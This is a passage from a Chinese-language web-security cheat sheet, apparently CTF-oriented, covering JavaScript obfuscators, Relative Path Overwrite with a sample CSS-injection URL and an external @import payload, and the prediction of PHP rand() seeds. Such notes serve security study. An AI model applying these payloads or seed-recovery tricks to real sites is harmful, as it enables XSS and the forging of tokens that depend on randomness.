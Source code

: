 
## Online Encoding / Decoding
- http://monyer.com/demo/monyerjs/

## JSFuck
- http://www.jsfuck.com/

## aaencode / aadecode
- http://utf-8.jp/public/aaencode.html
- https://cat-in-136.github.io/2010/12/aadecode-decode-encoded-as-aaencode.html


## RPO

- http://example.com/a%2findex.php
    - 浏览器会把`a%2findex.php`当成一个档案
    - Web Server则会正常解析成`a/index.php`
    - 所以当使用**相对路径**载入css时，就可以透过这种方式让浏览器解析到其他层目录下的档案
        - 如果该档案内容可控，则有机会XSS
    - 举例： 
        - `/test.php`中有`<link href="1/" ...>`
        - 另有`/1/index.php`给`?query=`参数，会直接输出该参数内容
        - 访问`/1%2f%3Fquery={}*{background-color%3Ared}%2f..%2f../test.php`就会让背景变红色
            - Server: `/test.php`
            - Browser: `/1%2f%3Fquery={}*{background-color%3Ared}%2f..%2f../test.php`
                - CSS会载入`/1/?query={}*{background-color:red}/../../1/`
            - CSS语法容错率很高
        
        - `@import`
            - `{}@import"//innerht.ml?`
        

# 密码学

## PRNG

- php 7.1.0后 `rand()`和`srand()`已经等同`mt_rand()`和`mt_srand()`
    - 测试结果：https://3v4l.org/PIUEo

- php > 4.2.0 会自动对`srand()`和`mt_srand()`播种
    - 只进行一次seed，不会每次`rand()`都seed
    
- 可以通过已知的random结果，去推算随机数种子，然后就可以推算整个随机数序列
- 实际应用上可能会碰到连上的不是同个process，可以用`Keep-Alive
`来确保连上同个php process(只会seed一次)
- 7.1以前`rand()`使用libc random()，其核心为：`
state[i] = state[i-3] + state[i-31]`
    - 所以只要有31个连续随机数就能预测接下来的随机数
    - 后来`rand()` alias成`mt_rand()`，採用的是`Mersenne Twister`算法
- Example: HITCON 2015 - Giraffe’s Coffee
